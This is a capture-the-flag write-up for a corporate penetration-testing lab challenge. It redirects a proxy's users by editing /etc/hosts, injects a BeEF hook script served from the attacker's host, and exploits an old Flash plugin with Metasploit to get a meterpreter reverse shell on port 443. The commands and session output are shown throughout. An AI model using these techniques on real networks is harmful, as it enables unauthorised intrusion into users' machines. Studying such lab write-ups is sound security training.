

Flash Flood Writeup
===================
## Category
Corporate Penetration Testing

## Question
Try to gain initial access into the initiative's internal network.

## Designed Solution
Players have already identified that Squid is running on the proxy server. Players need to inspect the squid logs to realise that there are simulated users also using the proxy. They need to redirect this Internet traffic to their Kali systems. Players need to profile the browser's plugin versions and then exploit a vulnerability to gain user access into the internal network.

## Hints Given
* Consider that the ECWI system is secure and doesn't allow direct traffic from the DMZ to the internal network. Additionally, it does not allow direct connections on arbitary ports from the internal network to the DMZ.
* Consider the services that you have used to get here, maybe others are using them as well... how would you find out? And keep up your resolv.conf.
* Look in the log file folder that has the same name as a sea creature. When you find the target, find their versions, then find the exploit.
* 11.7.700.202 might be relevant. Remember proxies are generally used for internal users to browse the Internet.

## Player Solution Comments
Six teams solved this challenge. All solutions used the proxy system to redirect traffic. Methods to do this differed, some redirected the proxies /etc/resolv.conf and some added entries to the proxy's /etc/hosts file. The Metasploit exploit modules that were successfully used were adobe_flash_hacking_team_uaf, adobe_flash_pixel_bender_bof, adobe_flash_avm2. All teams used a variant of meterpreter/reverse_http as the payload.

## Writeup
We start with the root shell gained from the previous challenge. Considering the name of the system (`proxy`) and that squid was running, we take a look at the squid server access logs to see if anyone else is using the proxy.

```shell
root@proxy:/# tailf /var/log/squid3/access.log
1446377315.128  30005 fd00:dead:beef::103 TCP_MISS/503 3920 GET http://onlineshopping.cysca/ - HIER_NONE/- text/html
1446377325.142  30003 fd00:dead:beef::103 TCP_MISS/503 3916 GET http://talktofriends.cysca/ - HIER_NONE/- text/html
1446377335.144  30002 fd00:dead:beef::103 TCP_MISS/503 3908 GET http://hipsterpics.cysca/ - HIER_NONE/- text/html
1446377345.170  30003 fd00:dead:beef::103 TCP_MISS/503 4161 GET http://www.squid-cache.org/Artwork/SN.png - HIER_NONE/- text/html
1446377345.170  10004 fd00:dead:beef::103 TCP_MISS/503 4158 GET http://www.squid-cache.org/Artwork/SN.png - HIER_NONE/- text/html
1446377345.170  19976 fd00:dead:beef::103 TCP_MISS/503 4160 GET http://www.squid-cache.org/Artwork/SN.png - HIER_NONE/- text/html
1446377345.173  30003 fd00:dead:beef::103 TCP_MISS/503 3916 GET http://newsaggegator.cysca/ - HIER_NONE/- text/html
1446377345.206      0 fd00:dead:beef::103 TCP_MISS/503 4160 GET http://www.squid-cache.org/Artwork/SN.png - HIER_NONE/- text/html
1446377355.156  30006 fd00:dead:beef::103 TCP_MISS/503 3920 GET http://legitimatesite.cysca/ - HIER_NONE/- text/html
1446377355.170      0 fd00:dead:beef::103 TCP_MISS/503 4161 GET http://www.squid-cache.org/Artwork/SN.png - HIER_NONE/- text/html
1446377421.690  30007 fd00:dead:beef::103 TCP_MISS/503 3920 GET http://onlineshopping.cysca/ - HIER_NONE/- text/html
1446377430.392  30004 fd00:dead:beef::103 TCP_MISS/503 3916 GET http://talktofriends.cysca/ - HIER_NONE/- text/html
```

We see a number of requests for websites including `http://legitimatesite.cysca` and `http://hipsterpics.cysca` from the system at `fd00:dead:beef::103`. We have a look at the proxy systems network adapters with `ifconfig` and see that it does not have an address in the `fd00:dead:beef` network. Based on the question text we surmise that this may be the internal network it is referring to.

We are curious about this IPv6 host and in order to get more information about the browser we will route the proxy requests to a BeEF server that we control.
We will target the `http://legitimatesite.cysca` request.

We first start the BeEF server in Kali. We then create a file `index.html` with the following content.

```html
<html>
<body>
<script src="http://192.168.5.100:3000/hook.js"></script>
</body>
</html>
```

We then use python to serve the page with the command `python -m SimpleHTTPServer 80`

Once we have the HTTP server running on our Kali system we jump onto the proxy server as root and update the `/etc/hosts` file to point `legitimatesite.cysca` to `192.168.5.100`. We then waited for the client to make another request for `legitimatesite.cysca`. *Note: We had to restart the squid proxy for the host files based redirection to take effect, which meant we temporarily lost access to our root shell.*

After waiting a couple of minutes the target browser showed up in BeEF. From the user agent it looks as if the browser is IE 10 on Windows 7.
We also note that the browser has flash installed. And this is probably relevant due to the name of the question.



We decide to try exploit the Flash plugin. We open Metasploit and use the most recent Flash vulnerability `exploit/multi/browser/adobe_flash_opaque_backgroud_uaf`. We use the `meterpreter_reverse_https` payload, this will give us the best chance of success as it will use any proxies currently configured in the target user browser. We use `LPORT=443` to give us the best chance of success against egress port filtering. We set `VERBOSE=True` to gain as much information as we can for later attempts.

We eventually get a connection from the target client. Unfortunately the exploit requirements aren't met. Because we had VERBOSE mode on we can see that the browser is running Flash version `11.7.700.202`. Now we can select an exploit that works against that version.

```
msf exploit(adobe_flash_opaque_background_uaf) > set LPORT 443
LPORT => 443
msf exploit(adobe_flash_opaque_background_uaf) > set LHOST 192.168.5.100
LHOST => 192.168.5.100
msf exploit(adobe_flash_opaque_background_uaf) > exploit
[*] Exploit running as background job.

[*] Started HTTP reverse handler on http://0.0.0.0:443/
[*] Using URL: http://0.0.0.0:80/
[*] Local IP: http://192.168.5.100:80/
[*] Server started.

[*] 172.16.5.30      adobe_flash_opaque_background_uaf - Gathering target information.
------- 8< 8< 8< SNIP --------
[*] 172.16.5.30      adobe_flash_opaque_background_uaf - 172.16.5.30      adobe_flash_opaque_background_uaf - Received sniffed browser data over POST:
{"os_name"=>["Windows 7"], "os_vendor"=>["undefined"], "os_device"=>["undefined"], "ua_name"=>["MSIE"], "ua_ver"=>["10.0"], "arch"=>["x86"], "java"=>["null"], "silverlight"=>["false"], "flash"=>["11.7.700.202"], "vuln_test"=>["true"], "office"=>["null"], "mshtml_build"=>["17489"]}.
------- 8< 8< 8< SNIP --------
[*] 172.16.5.30      adobe_flash_opaque_background_uaf - 172.16.5.30      adobe_flash_opaque_background_uaf - Comparing requirement: flash=#<Proc:0x11080d0c@/usr/share/metasploit-framework/modules/exploits/multi/browser/adobe_flash_opaque_background_uaf.rb:65 (lambda)> vs flash=11.7.700.202
[!] 172.16.5.30      adobe_flash_opaque_background_uaf - Exploit requirement(s) not met: flash. For more info: http://r-7.co/PVbcgx

msf exploit(adobe_flash_opaque_background_uaf) > jobs -k 0
```

We perform a search in Metasploit for that flash version `search 11.7.700.202` and one exploit `exploit/windows/browser/adobe_flash_avm2` is  listed. *Google would also have found this module*.

```
msf exploit(adobe_flash_opaque_background_uaf) > search 11.7.700.202
[!] Database not connected or cache not built, using slow search
Matching Modules
================
   Name                                      Disclosure Date  Rank    Description
   ----                                      ---------------  ----    -----------
   exploit/windows/browser/adobe_flash_avm2  2014-02-05       normal  Adobe Flash Player Integer Underflow Remote Code Execution
```

We use this exploit module. Again,  we use `meterpreter_reverse_https` payload and set `LPORT=443` and `VERBOSE=True`. We then wait for the client to request `legitimatesite.cysca` and be redirected to our exploit page. When the client requests the page, the exploit is successful and we get a Meterpreter shell.


```
msf exploit(adobe_flash_avm2) > exploit
------- 8< 8< 8< SNIP --------
[*] 172.16.5.30:50552 (UUID: 8af1c94a56391b72/x86=1/windows=1/2015-11-01T12:40:37Z) Staging Native payload ...
[*] Meterpreter session 1 opened (192.168.5.100:443 -> 172.16.5.30:50552) at 2015-11-01 23:40:40 +1100
[*] Session ID 1 (192.168.5.100:443 -> 172.16.5.30:50552) processing InitialAutoRunScript 'migrate -f'
[*] Current server process: iexplore.exe (1936)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 548
[*] 172.16.5.30      adobe_flash_avm2 - 172.16.5.30      adobe_flash_avm2 - Received cookie 'RLOHpW'.
[*] 172.16.5.30      adobe_flash_avm2 - 172.16.5.30      adobe_flash_avm2 - Serving exploit to user with tag RLOHpW
[*] 172.16.5.30      adobe_flash_avm2 - Target with tag "RLOHpW" wants to retry the module, not allowed.
[+] Successfully migrated to process

```

We then kill the exploit server with `jobs -k 2`. We then list the sessions with `sessions` and attach to the new session which is running as `jasper.west`.

```
msf exploit(adobe_flash_avm2) > jobs -k 2
[*] Stopping the following job(s): 2
[*] Stopping job 2
[*] Server stopped.
[*] Server stopped.
msf exploit(adobe_flash_avm2) > sessions

Active sessions
===============

  Id  Type                   Information                 Connection
  --  ----                   -----------                 ----------
  1   meterpreter x86/win32  ECWI\jasper.west @ HOTDESK  192.168.5.100:443 -> 172.16.5.30:50552 (fd00:dead:beef::103)

msf exploit(adobe_flash_avm2) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: ECWI\jasper.west
```

In the meterpreter session we perform a `ls` and `cat flag.txt` to get the flag for this challenge.

```
meterpreter > ls
Listing: C:\Users\jasper.west\Desktop
=====================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2015-09-15 11:12:49 +1000  desktop.ini
100666/rw-rw-rw-  39    fil   2015-08-11 10:19:59 +1000  flag.txt

meterpreter > cat flag.txt
FLAG{8EC9D138DB3D164D3704C92FB7C81643}

```
